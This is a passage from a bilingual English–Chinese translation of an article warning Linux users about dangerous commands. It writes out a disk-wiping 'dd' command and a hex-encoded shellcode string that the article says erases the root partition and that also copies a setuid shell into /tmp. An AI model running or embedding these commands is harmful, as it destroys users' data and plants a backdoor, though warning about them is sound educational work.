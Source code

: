 "上列命令常用来清空文件内容。如果用上列执行时输入错误或无知的输入类似 “> **xt.conf**”　的命令会覆盖配置文件或其他任何的系统配置文件。"

### 8. ^foo^bar ###

"### 8. ^foo^bar ###"

This command, as described in our [10 Lesser Known Linux Commands][1], is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t took the risk of thoroughly checking the change in original command using **^foo^bar** command.

"这个命令在我们[10个鲜为人知的Linux命令][1]中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用**^foo^bar**命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。"

### 9. dd if=/dev/random of=/dev/sda ###

"### 9. dd if=/dev/random of=/dev/sda ###"

The above command will wipe out the block **sda** and write random junk data to the block. Of-course! Your system would be left at inconsistent and unrecoverable stage.

"上列命令会向块设备**sda**写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入不协调和不可恢复的状态。"

### 10. Hidden the Command ###

"### 10. 隐藏命令　###"

The below command is nothing but the first command above (**rm -rf**). Here the codes are hidden in **hex** so that an ignorant user may be fooled. Running the below code in your terminal will wipe your **root** partition.

"下面的命令其实就是上面第一个命令 (**rm -rf**)。这里的代码是隐藏在**十六进制**里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你对**root**分区。"

This command here shows that the threat may be hidden and not normally detectable sometimes. You must be aware of what you are doing and what would be the result. Don’t compile/run codes from an unknown source.

"这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。"

"    char esp[] __attribute__ ((section(“.text”))) /* e.s.p"
"    release */"
"    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″"
"    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″"
"    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″"
"    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″"
"    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″"
"    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″"
"    “\x6e\x2f\x73\x68\x00\x2d\x63\x00″"
"    “cp -p /bin/sh /tmp/.beyond; chmod 4755"
"    /tmp/.beyond;”;"

**Note**: Don’t execute any of the above command in your **Linux** terminal or shell or of your friend or school computer. If you want to test them, run them in virtual machine. Any in-consistence or data loss, due to the execution of above command will break your system down for which, neither the **Author** of the article nor **Tecmint** is responsible.

"**注意**: 不要在你的或你的同学或学校的电脑里的**Linux**终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章**作者**和**Tecmint**概不负责。"
